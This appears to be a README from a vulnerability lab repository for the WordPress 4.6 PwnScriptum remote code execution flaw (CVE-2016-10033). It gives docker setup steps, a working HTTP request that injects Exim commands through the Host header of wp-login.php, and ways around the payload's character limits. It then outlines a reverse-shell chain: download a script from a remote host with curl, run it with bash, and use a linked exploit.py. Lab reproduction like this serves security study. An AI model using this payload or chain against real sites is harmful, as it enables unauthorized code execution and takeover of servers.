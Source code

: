 # Wordpress 4.6 Remote Code Execution Vulnerability (PwnScriptum)

[中文版本(Chinese version)](README.zh-cn.md)

## Reference link

https://exploitbox.io/vuln/WordPress-Exploit-4-6-RCE-CODE-EXEC-CVE-2016-10033.html

## Environment setup

```
docker-compose build
docker-compose up -d
```

Because Mysql initialization needs a little time, so please wait. After initialization succeeds, visit `http://your-ip:8080/`, set the administrator username and password to use it (the database is configured and not automatically updated).

## Exploit

Send the following packet, and you can see that `/tmp/success` has been successfully created:

```
POST /wp-login.php?action=lostpassword HTTP/1.1
Host: target(any -froot@localhost -be ${run{${substr{0}{1}{$spool_directory}}bin${substr{0}{1}{$spool_directory}}touch${substr{10}{1}{$tod_log}}${substr{0}{1}{$spool_directory}}tmp${substr{0}{1}{$spool_directory}}success}} null)
Connection: close
User-Agent: Mozilla/5.0 (compatible; MSIE 9.0; Windows NT 6.1; Win64; x64; Trident/5.0)
Accept: */*
Content-Length: 56
Content-Type: application/x-www-form-urlencoded

wp-submit=Get+New+Password&redirect_to=&user_login=admin
```

We need to meet the following requirements to exploit this vulnerability:

1. The executed command cannot contain some special characters, such as `:`, `'`,`"`, etc.
2. The command will be converted to lowercase letters
3. The command needs to use an absolute path
4. Need know an existing user username

In order to solve these problems, the vulnerability author came up with $`substr{0}{1}{$spool_directory}}` instead of `/`, using `${substr{10}{1}{$tod_log} }` method of replacing spaces.

However, there are still a lot of characters can't be used. So we need to put the command on the third-party website, and then download it to `/tmp` directory by `curl -o /tmp/rce example.com/shell.sh`.

Therefore, the expliot process is follows:

- Write the exp of reverse shell and put it on a site. The exp have this following requirements:
  - the entire url's uppercase letters will be converted to lowercase, so the file path should not contain uppercase letters.
  - Access to this page can't be redirected because the parameter for follow redirect is `-L` (uppercase).
- Splice the command`/usr/bin/curl -o/tmp/rce example.com/shell.sh`and`/bin/bash /tmp/rce`.
- Convert the spaces and `/` in the command to `${substr{10}{1}{$tod_log}}` and `${substr{0}{1}{$spool_directory}}`.
- Produce the HTTP Host header:`target(any -froot@localhost -be ${run{command}} null)`.
- Send these two packets in order.

Here is [expliot.py](exploit.py)，change `target` to your target site，change `user` to an exist user name，change `shell_url` to your payload site.

Execute to get the shell:

![](1.png)

